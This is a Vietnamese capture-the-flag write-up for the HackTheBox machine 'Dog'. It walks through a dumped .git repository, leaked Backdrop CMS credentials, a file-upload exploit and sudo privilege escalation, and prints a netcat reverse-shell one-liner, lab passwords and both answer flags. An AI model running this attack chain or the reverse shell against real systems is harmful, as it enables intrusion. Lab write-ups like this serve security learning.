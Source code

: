 # Dog

Đầu tiên mình sủ dụng nmap để scan các port đang ở của target thì thấy rằng có 2 công đang mở là công 22 chạy SSH và 80 chạy web server. Vì chưa có thông tin gì về username và password nên mình tạm thời bỏ quả port 22

![image](https://github.com/user-attachments/assets/216fd558-1d7a-4c18-9530-cc69a73d1ba3)

Sau một hồi test web không có gì đặc sắc thì mình thử sử dụng dirsearch để tìm các thư mục xem có gì không và kết quá là mình tìm thấy được đường dẫn .git. Đường dẫn này chứa thông tin về source code cũng như quá trình commit code.

![image](https://github.com/user-attachments/assets/b13056d8-dd0d-4836-b170-536371c8b570)

Mình sử dụng git-dumper để clone hết source code về bằng câu lệnh `git-dumper http://10.10.11.58/.git/ ../HTB/dog`

Sau khi có được source code mình thử tìm các file config hoặc setting để đọc thì thấy được rằng web server đang sử dụng Backdrop CMS và có một email rất có thể là của admin

![image](https://github.com/user-attachments/assets/40458660-def1-467a-a546-fc53c88e0218)

Trong file settings.php mình thu được thông tin về account database.

![image](https://github.com/user-attachments/assets/241cb0f7-d7ed-47c9-80e5-36261143ab52)

Sau một hồi thử thì mình xác định được tài khoản là tiffany và mật khẩu là BackDropJ2024DS2024

Sau khi đăng nhập thành công thì mình được chuyển đến trang chủ quản lí.

Mình dạo một vòng thì thấy web đang sử dụng Backdrop v 1.27.1

![image](https://github.com/user-attachments/assets/6d113416-662c-449c-bf10-3482a13ad202)

Thử tìm kiếm lỗ hổng thì mình thấy có POC trên [GD](https://www.exploit-db.com/exploits/52021). Đây là lỗi liên quan đến upload file nên mình tìm các chức năng có liên quan đến upload file thì thấy chức năng này tồn tại tại đường dẫn http://10.10.11.58/?q=admin/installer/manual.

Tải source về và chạy thôi.

![image](https://github.com/user-attachments/assets/52a648d8-2b64-4aee-b180-18d4e259b813)

Sau khi chạy xong sẽ có 1 file zip và một folder được sinh ra. Do ứng dụng không cho phép upload file zip nên ta phải nén lại sang định dạng tar.gz

Upload file vừa nén lên sau đó truy cập đến đường dẫn http://10.10.11.58/modules/shell/shell.php.

Sau một hồi tìm kiếm cũng như tham khảo mình thấy có đoạn shell sau có thể sử dụng

`rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.14.10 5555 > /tmp/f`

![image](https://github.com/user-attachments/assets/004ece0f-29f0-47f2-8229-c48c1a5713d5)

kết nối thành công

Sử dụng `bash -i` để tạo terminal cho dễ nhìn

Từ đây mình đi tìm user flag thôi. Bài này thì flag nằm ở trong thư mục của user johncusack. Nhưng mình không có quyền đọc. Sau khi tìm kiếm một hồi thì mình thầy có khả năng tài khoản này sử dụng chung mật khẩu với admin ở trên nên mình thử lại và thành công đăng nhập vào tài khoản của user johncusack

Đăng nhập vào và lấy flag thôi.

*User flag: 6b4a03d2d4eeaa948f842a86b618f9c7*

Để tìm root flag thì mình thử chạy lệnh `sudo -l` để xem các lệnh mà user này có thể chạy với quyền root. Sau khi chạy lệnh này thì mình thấy rằng có một ứng dụng là /usr/local/bin/bee có thể chạy với quyền root

Sau khi chạy thử để xem hướng dẫn thì mình thấy có một chức năng thực hiện code

![image](https://github.com/user-attachments/assets/1de9d4c2-970c-412c-ab79-5e2db5c190d9)

Kiểm tra thử mình thấy rằng đã leo thang thành công

![image](https://github.com/user-attachments/assets/d2c67c8e-9707-4bb2-97d0-f29c4d6cf5fd)

Việc cuối cùng là vào /root đọc flag thôi

*Root flag: b8c104551d2b1075288f4486c0ec294d*



















